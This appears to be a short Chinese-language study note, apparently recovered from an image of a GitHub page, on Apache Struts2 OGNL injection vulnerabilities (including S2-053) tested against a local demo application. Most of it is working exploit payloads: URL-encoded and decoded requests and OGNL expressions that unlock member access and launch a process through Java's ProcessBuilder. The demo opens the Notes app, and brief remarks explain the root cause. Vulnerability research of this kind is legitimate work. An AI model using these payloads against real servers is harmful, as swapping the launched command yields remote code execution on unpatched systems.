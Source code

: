 ### payload
```js
name=${(#glassy='multipart/form-data').(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}&age=11&__checkbox_bustedBefore=true&description=22
```

### injection
```js
${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}
```

### result
* ActionMessage 的 key 传给 ognl.getValue
* 长亭的检测结果与注入漏洞成因无关


## s2-053

### payload
```properties
# 解码前
http://www.glassy.com/Struts2Demo_war_exploded/s2053.action?name=%25%7b(%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23a%3d(new+java.lang.ProcessBuilder(%27%2fApplications%2fNotes.app%2fContents%2fMacOS%2fNotes%27)).start())%7d

# 解码后
http://www.glassy.com/Struts2Demo_war_exploded/s2053.action?name=%{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new+java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}
```

### injection
```js
%{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new+java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}
```

### result
* Freemarker 标签属性中的参数值传入 ognl.getvalue 中
* 长亭的检测结果与注入漏洞成因无关